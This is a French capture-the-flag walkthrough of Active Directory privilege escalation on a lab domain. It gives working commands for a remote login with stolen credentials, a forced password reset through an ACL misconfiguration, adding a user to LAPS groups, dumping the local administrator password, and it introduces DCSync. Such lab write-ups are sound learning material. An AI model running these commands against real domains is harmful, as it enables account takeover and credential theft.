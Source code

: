 On a un nouveau compte de domaine compromis : `jari:Cos@Chung@!RPG`

On peut PSRemote :

```bash
❯ evil-winrm -i localhost -u 'jari' -p 'Cos@Chung@!RPG'
```

## Exploit ForceChangePassword ACE & GenericAll on LAPS groups

On peut retourne sur BloodHound et marquer Jari en tant que owned. Cela tombe bien, c'est un utilisateur high value :

![bh4](https://i.imgur.com/5CPZWGu.png)

- L’utilisateur **JARI** a l'**ACE ForcheChangePassword** sur l’object user **GBIDEON**, on peut alors changer son password
- L’utilisateur **GIBDEON** est **membre** du groupe **Account Operators**
- Le groupe **Account Operators** a les droits **GenericAll** sur les **groupes LAPS READ** et **LAPS ADM**, gbideon est alors en capacité d’ajouter des membres aux groupes LAPS

Changement du password de gibdeon :

```powershell
$SecPassword = ConvertTo-SecureString 'Cos@Chung@!RPG' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('LicorDeBellota\jari', $SecPassword)

$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity gibdeon -AccountPassword $UserPassword -Credential $Cred
```

On ajoute gibdeon aux groupes LAPS :

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('LicorDeBellota\gibdeon', $SecPassword)

Add-DomainGroupMember -Identity 'LAPS ADM' -Members 'gibdeon' -Credential $Cred
Add-DomainGroupMember -Identity 'LAPS READ' -Members 'gibdeon' -Credential $Cred
```

## Read LAPS password

On récupère le password de l’Administrateur local (dans l’attribut `ms-mcs-AdmPwd`) en utilisant [lapsdumper](https://github.com/n00py/LAPSDumper) :

```bash
❯ python3 laps.py -d LicorDeBellota.htb -u gibdeon -p 'Password123!' -l PivotAPI.LicorDeBellota.htb
PIVOTAPI$:QVXf458yVa6WwYKYwA3a
```

## DCSync

DCSync est une technique qui impersonate un DC en simulant un processus de réplication. L'outil [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) permet d'effectuer ce type d'attaque. Il envoie une requête [IDL_DRSGetNCChanges](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894) à la DRSUAPI pour répliquer les objets de l'annuaire LDAP dans un naming context (NC) donné, afin de récupérer des clés Kerberos ainsi que les secrets contenus dans la base `NTDIS.DIT`.
